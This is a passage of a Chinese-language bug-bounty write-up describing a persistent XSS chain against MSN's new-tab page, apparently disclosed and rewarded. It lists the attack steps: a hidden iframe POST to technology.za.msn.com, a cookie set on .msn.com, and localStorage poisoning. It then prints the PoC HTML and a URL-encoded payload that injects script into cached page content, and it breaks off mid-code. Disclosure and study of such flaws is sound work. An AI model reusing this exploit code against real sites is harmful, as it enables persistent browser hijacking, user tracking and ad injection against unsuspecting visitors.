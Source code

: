 6.  对MSN内容的进行持续跟踪和伪造。鉴于此错误会导致对新标签页的持续接管，它可以用于跟踪用户活动（通过检查用户何时打开新标签页或访问保存的最近浏览站点），我们可以像现在许多恶意Web插件一样注入虚假广告

可能有些看起来有点夸张，但意思是这个意思。

总结一下整个攻击过程：
1. 潜在受害者访问我们的恶意网站
2. 恶意网站使用POST请求向`technology.za.msn`发送XSS payload。payload使用iframe标签进行隐藏。
3. `IFRAME`在约42秒后加载，XSS payload在`technology.za.msn.com`中触发
4. `technology.za.msn.com`中的 XSS 使用包含`domain=.msn.com`的指令创建一个包含我们的第二个payload的 Cookie，并命名为`domainId`。
5. 当`IFRAME`标签语句加载后，受害者浏览器被重定向到异常的新标签页面`https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz`
6. 一旦加载了`https://ntp.msn.com/compass/antp?locale=qab&dsp=1&sp=qabzz`，cookie “domainId”中的 XSS  payload就会被显示并且渲染
7. cookie 里的 XSSpayload 访问`localStorage`并在缓存的HTML代码的开头插入最终 payload 。

此时，新标签页面已被控制，当用户打开一个新选项卡时，最终payload将持续触发！随后向微软报告了这一情况，并因此获得了15000美元。

## 最终PoC和演示视频
在POC里之所以使用大量编码，是因为`domainId`这个 cookie 变量的字符限制。

```
<html>
<head>

<body>
<iframe src="about:blank" id="qframe" name="msn" style="opacity:0.001"></iframe>
<h1>Loading...(ETA 42secs)</h2>
<form id="qform" target="msn" action="http://technology.za.msn.com/pebble.asp?relid=172" method="post">
<!--
Encoded payload (Executes in 'technology.za.msn.com')
---------------------------------------------------------------------
(qd = new Date()).setMonth(qd.getMonth() + 12);
document.cookie = "domainId=" + 
				  ('q"*' 
				  + unescape('%71%22%2a%66%75%6e%63%74%69%6f%6e%28%29%7b%66%6f%72%28%71%20%69%6e%20%6c%6f%63%61%6c%53%74%6f%72%61%67%65%29%7b%69%66%28%71%2e%69%6e%64%65%78%4f%66%28%27%6c%61%73%74%4b%6e%6f%77%6e%27%29%3e%2d%31%29%7b%77%69%74%68%28%71%6e%74%70%6f%62%6a%3d%4a%53%4f%4e%2e%70%61%72%73%65%28%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%29%29%7b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%3d%75%6e%65%73%63%61%70%65%28%27%25%33%63%25%35%33%25%37%36%25%34%37%25%32%66%25%34%66%25%36%65%25%34%63%25%36%66%25%34%31%25%36%34%25%33%64%25%32%37%25%36%34%25%36%66%25%36%33%25%37%35%25%36%64%25%36%35%25%36%65%25%37%34%25%32%65%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%32%38%25%32%66%25%34%30%25%37%31%25%36%31%25%36%32%25%32%66%25%32%65%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%32%39%25%32%37%25%33%65%27%29%2b%71%6e%74%70%6f%62%6a%2e%64%6f%6d%7d%77%69%74%68%28%71%61%62%3d%71%6e%74%70%6f%62%6a%29%7b%6c%6f%63%61%6c%53%74%6f%72%61%67%65%5b%71%5d%3d%4a%53%4f%4e%2e%73%74%72%69%6e%67%69%66%79%28%71%61%62%29%7d%7d%7d%7d%28%29%2a%22%71') 
				  + '*"q') 
				  + ";expires=" 
				  + qd 
				  + ";domain=.msn.com;path=/";
---------------------------------------------------------------------
unescaped value above (Executes in broken 'ntp.msn.com'), this is all one line and im using with(){} a lot because semicolon not allowed.
---------------------------------------------------------------------
function() {
		for (q in localStorage) {
        if (q.indexOf('lastKnown') > -1) {
            with(qntpobj = JSON.parse(localStorage[q])) {
                qntpobj.dom = unescape('%3c%53%76%47%2f%4f%6e%4c%6f%41%64%3d%27%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%2f%40%71%61%62%2f%2e%73%6f%75%72%63%65%29%27%3e') + qntpobj.dom
            }
            with(qab = qntpobj) {
                localStorage[q] = JSON.stringify(qab)
            }
```